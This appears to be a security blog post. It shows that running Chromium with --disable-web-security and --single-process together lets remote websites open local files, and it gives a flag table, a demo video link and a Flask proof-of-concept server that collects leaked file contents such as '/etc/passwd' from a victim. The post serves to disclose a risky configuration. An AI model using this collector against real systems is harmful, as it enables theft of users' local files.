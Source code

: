 Okay, let me guess what was prompt: *“Gimme a code that runs a browser blazingly fast”*.

Anyway, this excellent vibe coder give me a chance to explore an interesting quirk of using these two flags (`--disable-web-security` & `--single-process`).

<table>
  <tr>
    <th><div style="font-weight: normal;">--single-process <a href="https://peter.sh/experiments/chromium-command-line-switches/#single-process">⊗</a></div></th>
    <th><div style="font-weight: normal;">Runs the renderer and plugins in the same process as the browser <a href="https://source.chromium.org/chromium/chromium/src/+/main:content/public/common/content_switches.cc?q=kSingleProcess&ss=chromium">↪</a></div></th>
  </tr>
  <tr>
    <td>--disable-web-security <a href="https://peter.sh/experiments/chromium-command-line-switches/#disable-web-security">⊗</a></td>
    <td>Don't enforce the <a href="https://en.wikipedia.org/wiki/Same-origin_policy">same-origin policy</a>; meant for website testing only. This switch has no effect unless --user-data-dir (as defined by the content embedder) is also present. <a href="https://source.chromium.org/chromium/chromium/src/+/main:content/public/common/content_switches.cc?q=kDisableWebSecurity&ss=chromium">↪</a></td>
  </tr>
</table>

At first sight, these two flags don’t seem to be related —i.e affect each other, but interestingly they enable any website, to access local files, how you say, I don’t know exactly why, but `open`-ing a local file using `—-disable-web-security`  only redirects to `about:blank#blocked` , but adding the `--single-process` flag, it successfully opens the file, thus enabling the access to local files by remote websites.

# Demo

<center>
<video height="400" controls style="max-width: 90vw;">
  <source src="https://github.com/user-attachments/assets/0be530c4-bc11-4753-9c57-6859370228b7" type="video/mp4">
</video>
</center>

```python
{% raw %}
from flask import Flask, request, redirect

app = Flask(__name__)

SERVER_HOST = "http://127.0.0.1:5500"
LEAKED_FILE_NAME = "/etc/passwd"
DOWNLOADED_FILE_NAME = "file:///Users/victim/Downloads/index.html"

leaked_file_content = ""

@app.route('/content', methods=["GET"])
def content():
    global leaked_file_content
    if leaked_file_content != "":
        returned = leaked_file_content
        leaked_file_content = ""
        return returned, 200
    return leaked_file_content, 200

@app.route('/', methods=["POST"])
def upload():
    global leaked_file_content
    leaked_file_content = request.data
    return "done.", 200

```